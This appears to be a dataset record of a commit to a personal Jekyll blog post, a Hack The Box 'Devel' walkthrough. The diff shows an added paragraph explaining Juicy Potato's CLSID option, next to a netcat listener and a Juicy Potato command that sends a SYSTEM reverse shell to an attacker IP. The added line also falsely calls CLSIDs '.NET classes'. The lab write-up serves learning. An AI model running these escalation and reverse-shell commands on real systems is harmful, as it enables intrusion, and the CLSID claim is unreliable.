

Before and after one commit to notbricey/brisee.github.io, a Jekyll site: the page built from _posts/2021-05-27-htb-devel.md, in a window 1280 px wide and 900 px high, scrolled down 14213 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 15080 px from its top, so only the background shows below that.

Commit message:
Update 2021-05-27-htb-devel.md

````diff
--- a/_posts/2021-05-27-htb-devel.md
+++ b/_posts/2021-05-27-htb-devel.md
@@ -523,7 +523,7 @@ Now that we have the files we need, we can go ahead and set up a Netcat listener
 rlwrap nc -lvnp 9001
 ```
 
-Juicy Potato takes a handful of arguments to run correctly. If you want to read more into it, please look into the GitHub repo [here](https://github.com/ohpe/juicy-potato) where a good amount of documentation is done on the exploit. Something I do want to note though is the `-c` option. `-c` is specifying a certain `CLSID` which is a software applications class ID or "class identifier". We essentially are impersonating a service by supplying a `CLSID` of a service that is running with higher privileges than us, that being `SYSTEM`. A list of `CLSIDs` can be found [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID). Personally for me, I had to go through a few `CLSIDs` that are running as `NT AUTHORITY\SYSTEM` to get it to work but the one that did work is `{03ca98d6-ff5d-49b8-abc6-03dd84127020}` so I went ahead and ran with that.
+Juicy Potato takes a handful of arguments to run correctly. If you want to read more into it, please look into the GitHub repo [here](https://github.com/ohpe/juicy-potato) where a good amount of documentation is done on the exploit. Something I do want to note though is the `-c` option. `-c` is specifying a certain `CLSID` which is a software applications class ID or "class identifier". CLSIDs are `.NET classes` and the CLSIDs we are going to use refer to services that are running as `SYSTEM`. We essentially are impersonating a service by supplying a `CLSID` of a service that is running with higher privileges than us, that being `SYSTEM`. A list of `CLSIDs` can be found [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID). Personally for me, I had to go through a few `CLSIDs` that are running as `NT AUTHORITY\SYSTEM` to get it to work but the one that did work is `{03ca98d6-ff5d-49b8-abc6-03dd84127020}` so I went ahead and ran with that.
 
 ```
 c:\Windows\Temp>.\Juicy.Potato.x86.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.36 9001" -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}"
````
